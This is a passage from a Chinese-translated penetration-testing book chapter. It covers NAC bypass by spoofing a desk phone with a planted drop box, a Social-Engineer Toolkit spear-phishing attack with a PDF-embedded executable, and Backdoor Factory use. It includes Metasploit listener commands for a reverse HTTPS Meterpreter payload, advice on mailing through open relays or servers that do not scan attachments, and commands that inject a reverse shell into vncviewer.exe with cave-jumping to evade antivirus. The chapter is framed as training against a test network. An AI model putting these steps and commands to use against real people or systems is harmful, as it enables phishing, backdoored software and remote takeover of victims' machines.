那么，如何处理不运行 Windows 操作系统的手机、打印机和工作站，使它们在 NAC 控件中工作呢？您必须在 NAC 设置中白名单他们的 MAC 和 IP 地址。因此，通过将其中一个设备从网络上取下并欺骗其身份，您现在可以使用您欺骗的设备的访问级别访问受限 VLAN。在平面网络上，通常可以访问所有本地网络中的所有内容。

黑客最容易的标志之一是 SIP 电话。如果打印机脱机，人们肯定会注意到。每个人都使用打印机。要使用打印机进行此类攻击，必须选择不经常使用的打印机。电话是另一种情况。办公室总是有多余的电话给客人，而且，如果你知道员工的工作日程安排，你可以为外出度假的人接电话。拔下他们的电话插头，将您的投递箱贴在桌子下，然后将其连接到电话投递箱，您就进入了：


那么，你如何避免这种情况？

首先，不要指望 NAC 是您网络上的终极安全功能。NAC 应该只是网络安全体系结构中的一层。实际上，它应该是网络安全的上层之一。一个简单的解决方法是关闭（拔下）未使用的网络端口。这不会让你免于黑客破坏度假者的台式电话，但它可以防止一个空立方体成为黑客的总部。

任何网络安全的第一层都应该是适当的分段。如果你无法找到它，你就无法到达它。请注意，在上图中，**CorpNET**和**ProdNET**彼此具有完全访问权限。攻击者通过**CorpNET**进入，欺骗网络设备，可以访问受限制的**ProdNET**。

# 使用社会工程工具包创建鱼叉式网络钓鱼攻击

**社会工程工具包**（**SET**许可协议规定 SET 的设计纯粹是为了善而非恶。未经网络和设备所有者授权，将本工具用于恶意目的，违反了本工具集的**服务条款**（**TOS**和许可证。要查找此工具，请浏览菜单 Kali Linux 08-剥削工具|社会工程工具包，或在命令行中键入`setoolkit`：



此攻击将使用 Metasploit reverse HTTP 有效负载，因此在使用集合之前，您必须执行两个步骤：

1.  启动 Metasploit 服务。通过以下菜单启动 Metasploit 控制台：应用程序| 08-开发工具| Metasploit 框架。您还可以通过在命令提示符下键入`msfconsole`来启动 Metasploit Framework 控制台，完全避免使用 GUI 菜单。

2.  确定您的侦听器将要侦听的本地主机地址，以便您的恶意软件可以打电话回家。在我们的测试网络中，Kali 服务器运行在物理主机上运行的虚拟机上。恶意软件传入时，主机的 IP 或来自虚拟机的桥接伪以太网卡必须是目标。如果您在 internet 上的 VMS 机器上运行您的 Kali，这将稍微不那么困难。
    1.  以下是测试网络的配置。有两台可以访问 internet 的机器和两台只能从内部网络访问的服务器。Kali 186 是攻击者的笔记本电脑，Windows 10 工作站是内部网络的跳转盒。
3.  一旦启动 Metasploit，您就需要启动侦听器，这样您将要创建的恶意软件就可以在打电话回家时接听来电。
    1.  在 MSF 命令提示符中键入以下命令：

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.0.0.2
set LPORT 4343 exploit  
```

4.  侦听器是一个开放的运行进程，因此游标不会返回到就绪状态。为了显示侦听器处于活动状态，我们可以使用`nmap`对其运行端口扫描：



另一方面，监听器对`nmap`扫描做出响应，并从扫描中读出数据：


在下图中，我们可以看到监听器标记了扫描源，所有的扫描请求都记录为来自`10.0.2.15`，这是 Kali 机器的内部 IP：


我们将要创建的恶意软件将是一个包装在 PDF 文件中的可执行文件。这将是一封电子邮件的附件，该电子邮件来自一个声称安全的来源，发送给目标公司的一位已识别的系统管理员。我们将首先回顾一下社会工程工具包的菜单结构。

主菜单有六个条目和一个退出提示：

1.  `1) Social-Engineering Attacks`
2.  `2) Fast-Track Penetration Testing`
3.  `3) Third-Party Modules`
4.  `4) Update the Social-Engineer Toolkit`
5.  `5) Update SET configuration`
6.  `6) Help, Credits, and About`
7.  `99) Exit the Social Engineering Toolkit`

在条目`Social-Engineering Attacks`第 1 项下，共有 11 条条目：

1.  `1) Spear-Phishing Attack Vectors`
2.  `2) Website Attack Vectors`
3.  `3) Infectious Media Generator`
4.  `4) Create a Payload and Listener`
5.  `5) Mass Mailer Attack`
6.  `6) Arduino-Based Attack Vector`
7.  `7) Wireless Access Point Attack Vector`
8.  `8) QRCode Generator Attack Vector`
9.  `9) Powershell Attack Vectors`
10.  `10) Third Party Modules`
11.  `99) Return back to the main menu.`

# 使用 Spear 网络钓鱼攻击向量菜单

`Spear-Phishing Attack Vectors`菜单有四个选项：

1.  `1) Perform a Mass Email Attack`
2.  `2) Create a FileFormat Payload`
3.  `3) Create a Social-Engineering Template`
4.  `99) Return to Main Menu`

由于我们将设置一个持续的威胁，让我们能够控制受害者的机器，并且必须克服用户可能不愿双击附件的情况，因此我们必须创建一个不可抗拒的矛式钓鱼邮件。要做到这一点，重要的是要提前进行有效的侦察。

公司通讯簿和日历对于创建打开电子邮件所需的紧急状态非常有用。就像通过电子邮件进行营销一样，无论是合法的还是垃圾邮件，矛式网络钓鱼电子邮件的标题对受害者来说必须是有趣、有趣或令人恐惧的：



这封邮件很短，很有趣，可以通过贪婪制造紧迫感。附件可以是以下任何一种：

*   一个 ZIP 文件，假定里面有一个文档
*   Word 文档
*   PDF 文件

该装置提供 21 种可能的有效载荷。其中一些在 Mac 操作系统上比在 Windows 系统上工作得更好。大多数 Windows 工作站未设置为处理 RAR 压缩文件。以下是可用的选项：

1.  `1) SET Custom Written DLL Hijacking Attack Vector (RAR, ZIP)`
2.  `2) SET Custom Written Document UNC LM SMB Capture Attack`
3.  `3) MS14-017 Microsoft Word RTF Object Confusion (2014-04-01)`
4.  `4) Microsoft Windows CreateSizedDIBSECTION Stack Buffer Overflow`
5.  `5) Microsoft Word RTF pFragments Stack Buffer Overflow (MS10-087)`
6.  `6) Adobe Flash Player "Button" Remote Code Execution`
7.  `7) Adobe CoolType SING Table "uniqueName" Overflow`
8.  `8) Adobe Flash Player "newfunction" Invalid Pointer Use`
9.  `9) Adobe Collab.collectEmailInfo Buffer Overflow`
10.  `10) Adobe Collab.getIcon Buffer Overflow`
11.  `11) Adobe JBIG2Decode Memory Corruption Exploit`
12.  `12) Adobe PDF Embedded EXE Social Engineering`
13.  `13) Adobe util.printf() Buffer Overflow`
14.  `14) Custom EXE to VBA (sent via RAR) (RAR required)`
15.  `15) Adobe U3D CLODProgressiveMeshDeclaration Array Overrun`
16.  `16) Adobe PDF Embedded EXE Social Engineering (NOJS)`
17.  `17) Foxit PDF Reader v4.1.1 Title Stack Buffer Overflow`
18.  `18) Apple QuickTime PICT PnSize Buffer Overflow`
19.  `19) Nuance PDF Reader v6.0 Launch Stack Buffer Overflow`
20.  `20) Adobe Reader u3D Memory Corruption Vulnerability`
21.  `21) MSCOMCTL ActiveX Buffer Overflow (ms12-027)`


让我们选择默认值，即第 12 项。当您点击*输入*时，下一个屏幕允许您使用自己选择的修改过的 PDF 文件，或使用内置的空白 PDF。选择第二个选项，我们将看到七个选项：

1.  `1) Windows Reverse TCP Shell`
2.  `2) Windows Meterpreter Reverse_TCP`
3.  `3) Windows Reverse VNC DLL`
4.  `4) Windows Reverse TCP Shell (x64)`
5.  `5) Windows Meterpreter Reverse_TCP (X64)`
6.  `6) Windows Shell Bind_TCP (X64)`
7.  `7) Windows Meterpreter Reverse HTTPS`



由于其中三个选项将运行代码，使受害者机器通过电话回到 Metasploit Framework MeterMeter 工具的家中，并且您一直在使用该工具进行练习，因此选择其中一个作为您的恶意负载可能是有意义的。让我们选择选项`7) Windows Meterpreter Reverse HTTPS`。

当我们输入`7`时，我们得到几个选项：

*   `IP address of the listener (LHOST)`：使用您将拥有侦听器的主机地址。我的 Kali 工作站认为它是 10.0.2.15。
*   `Port to connect back to [443]`：端口`443`是这里的默认值，但您可以在监听设备的任何端口上设置侦听器。`443`是 HTTPS 端口，因此不会因为其编号而显得异常。如果防火墙管理员将批准的端口列入白名单，并将所有其他端口列入黑名单，则端口`12234`将看起来不寻常，也可能被阻止。它表示有效载荷被发送到`/root/.set/template.pdf`目录。

它不是这样做的。在这种情况下，可执行文件被设置为`legit.exe`。输入文件名时，如下图所示，需要使用完整路径：



一旦您选择了 PDF 的名称，就可以启动社会工程工具包群发电子邮件。

如果你找到了一个开放邮件中继、一个 Gmail 帐户或任何合法的电子邮件 SMTP 服务器，邮件发送者将使用开放邮件中继。该集不包含自己的 SMTP 服务器。您可能希望找到一个可用于此目的的免费电子邮件服务，或使用开放式中继邮件服务器：



# 选择主题，或编写新的电子邮件

该设置允许您为您的网络钓鱼电子邮件攻击选择几个不同的美味电子邮件主题，并且您可以轻松添加新模板以自定义方法。下面列表中的第四个选项是我们刚刚创建的：



对于这个系统的测试，我选择将攻击发送到一个我可以控制的 Gmail 帐户。如果在发送消息时出错，集合不会返回到邮件部分。谷歌邮件抓到了这个伪造的 PDF 文件，并发回了一个指向其安全页面的链接：


使用来自不检查受感染附件的服务器的电子邮件帐户。我们使用了`evilhacker@act23.com`，并将电子邮件发送至`kalibook@act23.com`，这起作用：



# 利用后门工厂逃避杀毒

该漏洞代码在未安装防病毒软件的 XP SP2 计算机上运行良好，在未安装防病毒软件的任何计算机上运行良好，但在安装了基本默认 Windows 防病毒软件的 Windows 10 计算机上效果较差。我们不得不关闭防病毒软件的实时检查功能，以确保邮件阅读无误，防病毒软件清除了我们篡改的文件。作为安全工程师，我们很高兴 MicrosoftWindows10 具有如此有效的反恶意软件功能，这是一项全新的功能。作为渗透测试人员，我们感到失望。

后门工厂将外壳代码插入到工作的 EXE 文件中，而不会对原始文件进行太多更改。您可以使用`/usr/share/windows-binaries`目录中的可执行文件，如以下屏幕截图所示，或任何其他未编码保护的 Windows 二进制文件：



运行 Backdoor Factory 并在端口`43434`上的`10.0.0.2`创建具有侦听器的远程 shell 的代码如下所示。跳洞选项将代码散布在可执行文件的空白处，进一步混淆防病毒扫描：

```
backdoor-factory -cave-jumping -f /usr/share/windows-binaries/vncviewer.exe -H 10.0.0.2 -P 43434 -s reverse_shell_tcp  
```

如果在外壳代码选择中出错，应用程序将显示您的选择：



```
backdoor-factory -cave-jumping -f /usr/share/windows-binaries/vncviewer.exe -H 10.0.0.2 -P 43434 -s reverse_shell_tcp_inline 
```

然后，后门工厂继续并提供将外壳代码注入二进制文件中所有空隙或洞穴的选项：



我们将选择洞穴 1：


`backdoored`目录在根`home`目录`~/backdoored/`中，所以很容易找到。我们可以使用该集合将此篡改的文件推送到群发邮件中，但您可以通过电子邮件将其从伪造帐户发送到 Windows 10 邮箱，以查看它是否可以清除防病毒障碍。该可执行文件必须经过压缩才能通过邮件服务器上的过滤器，一旦在 Windows 10 计算机上解压缩，它就会作为恶意软件文件被清除。

Windows 10 的默认防病毒软件找到该文件时，与它从集合中找到的另一个文件相同。未打补丁的旧版本 Windows 显然存在风险。

# 总结

在本章中，您已经看到了在 Windows 计算机上获得控制和设置后门的五种不同方法，从 Ncat 脚本、Metasploit MeterMeter 攻击、添加投递箱、使用 SET 发送钓鱼电子邮件，以及使用后门工厂使用外壳脚本后门创建可执行文件。

在本章中，我们还学习了各种设备上跳转框的设置和使用。

在下一章中，我们将讨论您收集的反向工程恶意软件，以便您了解它在野外或网络中可能会做什么，并对您的设备进行压力测试。

# 进一步阅读

*   **卡利树莓 Pi 设置**：[https://docs.kali.org/kali-on-arm/install-kali-linux-arm-raspberry-pi](https://docs.kali.org/kali-on-arm/install-kali-linux-arm-raspberry-pi)
*   **树莓 Pi 磁盘加密**：[https://docs.kali.org/kali-dojo/04-raspberry-pi-with-luks-disk-encryption](https://docs.kali.org/kali-dojo/04-raspberry-pi-with-luks-disk-encryption)